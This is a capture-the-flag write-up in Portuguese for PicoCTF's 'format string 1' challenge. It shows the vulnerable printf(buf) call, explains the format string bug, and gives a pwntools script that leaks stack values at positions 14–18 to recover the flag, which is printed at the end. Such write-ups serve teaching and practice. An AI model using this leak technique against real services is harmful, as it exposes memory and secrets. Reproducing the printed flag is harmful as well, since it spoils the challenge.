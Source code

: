 # WriteUp: format string 1
## Descrição do Desafio:
**Autor**: Syreal \
**Plataforma**: [PicoCTF](https://play.picoctf.org/practice/challenge/434?category=6&page=1) \
**Categoria**: Binary Exploitation \
**Dificuldade**: Médio \
**Data**: 2024 \
**Descrição**:
> Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!

## Passo a Passo da Solução 
### 1. Análise do arquivo fornecido
Assim como o anterior, este desafio fornece seu arquivo fonte `.c`. Analisando ele, podemos ver que ele abre 3 arquivos: `secret-menu-item-1.txt`, `flag.txt`, e `secret-menu-item-2.txt`.

Porém, não há nada de mais acontecendo com esses arquivos, mas no final da função `main()` podemos notar a vulnerabilidade, o *buffer* que nós escrevemos é passado diretamente para a função `printf()`, então, se nosso *input* conter *formats strings*, a `printf()` irá interpretar eles, e para nossa alegria, a **flag** está declarada na pilha.

{% code title="vuln.c" overflow="wrap" lineNumbers="true" %}

```c
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
```

{% endcode %}

### 2. Exploit
O exploit desse desafio é conhecido como `format string bug`, e ele consiste em abusar desse bug, que é o *buffer* ser passado diretamente na `printf()`, para alterar variáveis ou ver coisas na pilha. Como a vulnerabilidade acontece após a **flag** ser declarada, é possível encontrar a **flag** na pilha por meio desse bug.

### 3. Solução
Tudo o que temos que fazer é identificar em qual posição da pilha está nossa **flag**, e com isso ler ela usando operadores como `%pos$p`. O desafio é encontrar em qual posição está a **flag**, mas debugando com o GDB é possível encontrar facilmente ela nas posições 14 à 18.

Porém, se você estiver usando o **pwntools** se atente ao valor que será impresso, pois esse valor estará em hexadecimal e em `little-endian`. A forma como eu optei fazer, foi por meio de inverter a string, e transformar para *bytes*, e após isso concatenava com a **flag**.

### 3.1 Solução com Python

{% code title="solve.py" overflow="wrap" lineNumbers="true" %}

```py
from pwn import *

p = remote(ip, porta) #Troque pelos valores fornecidos

#Montando payload para pegar os valores das posições 14 a 18.
payload = ""
for i in range(14, 19):
    payload += f"%{str(i)}$p-"

#Fazerndo o format string bug
p.sendlineafter(b"to you:\n", payload)
p.recvuntil(b"order: ")
flag_list = p.recvline().decode().split("-")

#Montando a flag
flag = ""
for i in flag_list:
    x = i[2:] #Retirando o 0x
    x = ''.join([x[i:i+2] for i in range(len(x)-2, -1, -2)]) #Invertendo por byte
    bytes_string = bytes.fromhex(x)
    flag += bytes_string.decode('ascii')

print(flag)
```

{% endcode %}

### Flag
`picoCTF{4n1m41_57y13_4x4_f14g_9135fd4e}`

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)
